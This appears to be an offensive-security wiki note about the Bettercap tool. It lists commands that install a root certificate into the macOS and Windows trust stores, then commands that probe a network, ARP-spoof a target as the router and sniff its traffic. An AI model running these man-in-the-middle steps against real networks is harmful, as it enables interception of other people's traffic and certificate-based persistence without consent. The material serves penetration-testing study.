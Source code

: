 # Bettercap

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

TODO: Re-arrange this section under persistence (https://www.ired.team/offensive-security/persistence/t1130-install-root-certificate)


Mac OSX

```
$ add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain /tmp/filename
```

Windows

```
C:\> CertUtil.exe -addstore -f -user "Root" "C:\path\to\cert.pem"
```

```
PS C:\> Import-Certificate -FilePath C:\Users\spot\Downloads\certnew.cer -CertStoreLocation Cert:\CurrentUser\Root\

HKEY_CURRENT_USER\Software\Microsoft\SystemCertificates\Root\Certificates\
```

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```
net.show
```

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

Enable sniffer mode

```
net.sniff on
```

---
## References

### Backlinks

- [[DNSChef]]